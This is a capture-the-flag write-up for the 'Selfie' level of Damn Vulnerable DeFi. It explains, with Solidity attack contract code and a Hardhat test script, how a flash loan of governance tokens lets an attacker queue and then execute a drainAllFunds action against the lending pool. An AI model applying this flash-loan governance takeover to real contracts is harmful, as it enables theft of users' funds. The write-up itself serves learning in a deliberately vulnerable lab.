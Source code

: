 # Selfie

1. The `SelfiePool.sol` have typical `flashLoan` function and `drainAllFunds` which can only be called by governance contract. The `SimpleGovernance.sol` contract allow us to propose an action trough `queueAction` as long as we have more than half of DVT total supply and target call is not the governance contract itself. With this, we can `flashLoan` from pool and then call `queueAction` that contain call to the pool to `drainAllFunds` and send the fund to our address. But we have to wait `2 days` to execute the action.

```solidity
    function attack(uint256 borrowAmount) external {
        pool.flashLoan(borrowAmount);
    }

    function receiveTokens(address tokenAddress, uint256 amount) external {
        DamnValuableTokenSnapshot(tokenAddress).snapshot();
        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            owner
        );
        actionId = gov.queueAction(address(pool), data, 0);
        IERC20(tokenAddress).transfer(address(pool), amount);
    }

    function execute() external {
        gov.executeAction(actionId);
    }
```

The javascript test script :

```javascript
/** CODE YOUR EXPLOIT HERE */
const SelfieAttack = await ethers.getContractFactory("SelfieAttack", attacker);
this.selfieAttack = await SelfieAttack.deploy(
  this.governance.address,
  this.pool.address
);
// do a flash loan and propose gov action
await this.selfieAttack.attack(TOKENS_IN_POOL);
// wait till two days
await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]);
await this.selfieAttack.execute();
```
